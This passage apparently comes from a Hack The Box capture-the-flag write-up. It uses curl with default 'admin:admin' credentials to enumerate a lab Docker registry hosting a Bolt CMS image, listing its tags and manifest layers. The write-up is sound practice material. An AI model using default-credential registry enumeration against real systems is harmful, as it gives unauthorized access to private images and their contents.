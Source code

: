 Seem like this registry is hosting a repository for the Bolt CMS docker image. How's how the site,  `/bolt` looks like.

{% include image.html image_alt="c12f044f.png" image_src="/08875d12-8f7d-4636-8820-97a11df2efce/c12f044f.png" %}


Let's list out the tags.

```
# curl -ik --user "admin:admin" https://docker.registry.htb/v2/bolt-image/tags/list
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 20 Oct 2019 15:20:59 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 40
Connection: keep-alive
Docker-Distribution-Api-Version: registry/2.0
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=63072000; includeSubdomains
X-Frame-Options: DENY
X-Content-Type-Options: nosniff

{"name":"bolt-image","tags":["latest"]}
```

We can also list out the image manifest like so.

```
# curl -ik --user "admin:admin" https://docker.registry.htb/v2/bolt-image/manifests/latest
...
"fsLayers": [                                                                                                                                                                                        
      {                                                                                                                                                                                                 
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"                                                                                                           
      },                                                                                                                                                                                                
      {                                                                                                                                                                                                 
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"                                                                                                           
      },
      {                                                                                                                                                                                                 
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"                                                                                                           
      },                                                                                                                                                                                                
      {                                                                                                                                                                                                 
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"                                                                                                           
      },                                                                                                                                                                                                
```

[1]: https://www.hackthebox.eu/home/machines/profile/213
[2]: https://www.hackthebox.eu/home/users/profile/4615
[3]: https://www.hackthebox.eu/